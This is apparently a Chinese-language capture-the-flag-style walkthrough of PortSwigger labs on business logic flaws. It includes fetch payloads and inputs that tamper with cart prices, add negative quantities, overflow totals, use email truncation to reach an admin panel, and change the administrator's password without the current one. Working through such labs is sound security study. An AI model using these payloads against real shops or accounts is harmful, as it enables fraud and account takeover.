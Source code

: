 ```yaml
---
title: Business logic vulnerabilities
description: Business logic vulnerabilities
---
```


## Lab: Excessive trust in client-side controls

| Dimension | Description                                                                                                       |
| --------- | ----------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls                 |
| Lab       | https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls |

加入購物車的時候沒檢查金額

```js
fetch(
  "https://0a9d00d00396c1b68117c54f00c40012.web-security-academy.net/cart",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: "productId=1&redir=PRODUCT&quantity=1&price=100",
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

## Lab: High-level logic vulnerability

| Dimension | Description                                                                                       |
| --------- | ------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls |
| Lab       | https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-high-level              |

加入購物車的時候沒檢查數量，負數可以讓金額變成負的

```js
fetch(
  "https://0aba0073033e80add0cca0af00fe0071.web-security-academy.net/cart",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: "productId=2&redir=PRODUCT&quantity=-26",
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

## Lab: Low-level logic flaw

| Dimension | Description                                                                                       |
| --------- | ------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls |
| Lab       | https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-low-level               |

這題的 Hint

```
You will need to use Burp Intruder (or Turbo Intruder) to solve this lab.

To make sure the price increases in predictable increments, we recommend configuring your attack to only send one request at a time. In Burp Intruder, you can do this from the resource pool settings using the Maximum concurrent requests option.
```

根據線索，立馬想到是 Integer overflow，如果金額 > 2147483647 的話，也許就會變成負數，所以題目才說建議用 Burp Intruder 來解，並且要觀察價格的變化

這題我發現庫存有檢核 `quantity < 100`，於是我選擇用 JS 每次 80 來跑

```js
async function addToCart() {
  return fetch(
    "https://0a3c00bb0333802fd03fbe0d009000ac.web-security-academy.net/cart",
    {
      headers: {
        "content-type": "application/x-www-form-urlencoded",
      },
      body: "productId=1&redir=PRODUCT&quantity=80",
      method: "POST",
      mode: "cors",
      credentials: "include",
      redirect: "manual",
    },
  );
}
```

| UnitPrice | Quantity | TotalPrice    |
| --------- | -------- | ------------- |
| $1337.00  | 16061    | $21473557.00  |
| $1337.00  | 16062    | -$21474778.96 |
| $1337.00  | 32124    | $115.04       |

但我們的金額只有 $100，所以稍微調整一下購物車，購買其他品項，成功壓在 $100 元以內～

## Lab: Inconsistent handling of exceptional input

| Dimension | Description                                                                                                          |
| --------- | -------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls                    |
| Lab       | https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-inconsistent-handling-of-exceptional-input |

這題有一些線索

- If you work for DontWannaCry, please use your @dontwannacry.com email address
- Displaying all emails @exploit-0a8800ef0328a813843a053a01ca0071.exploit-server.net and all subdomains

結合以上，我構造了 `xxx@dontwannacry.com.exploit-0a8800ef0328a813843a053a01ca0071.exploit-server.net` 的 email，但還是沒有取得 Admin panel 的權限

同時，我也嘗試用 username = `administrator` 來註冊，但是會顯示 `An account already exists with that username`

後來參考答案後，我才意識到我差了臨門一角～

這題利用的是長度 255 會被截斷的特性

構造

```js
Array(255 - "@dontwannacry.com".length)
  .fill(1)
  .join("") +
  "@dontwannacry.com.exploit-0a8800ef0328a813843a053a01ca0071.exploit-server.net";
```

可以成功收到註冊信，但是登入後，剛好會被截斷成 `111......111@dontwannacry.com`，然後就可以取得 Admin panel 權限了

這題的 Bypass 手法真的很妙，我從來沒想過可以這樣幹XDD

## Lab: Inconsistent security controls

| Dimension | Description                                                                                              |
| --------- | -------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/logic-flaws/examples#making-flawed-assumptions-about-user-behavior  |
| Lab       | https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-inconsistent-security-controls |

這題跟上一題一樣，都有註冊功能 + Email Client + @dontwannacry.com 可以訪問 Admin panel 的設定

先正常註冊，之後再 update email 改成 xxx@dontwannacry.com 就可以成功訪問 Admin panel～

## Lab: Weak isolation on dual-use endpoint

| Dimension | Description                                                                                                   |
| --------- | ------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/logic-flaws/examples#users-won-t-always-supply-mandatory-input           |
| Lab       | https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-weak-isolation-on-dual-use-endpoint |

這題有點神奇，直接拿掉 `current-password`，竟然就不檢核了，可以直接修改 `administrator` 的密碼

```js
fetch(
  "https://0a9100cc040045e080709e79007d00e3.web-security-academy.net/my-account/change-password",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: "csrf=OBWNVzxgoTDZXBYR13Z8wc3gUcXZBBK9&username=administrator&new-password-1=administrator&new-password-2=administrator",
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

## 參考資料

- https://portswigger.net/web-security/host-header
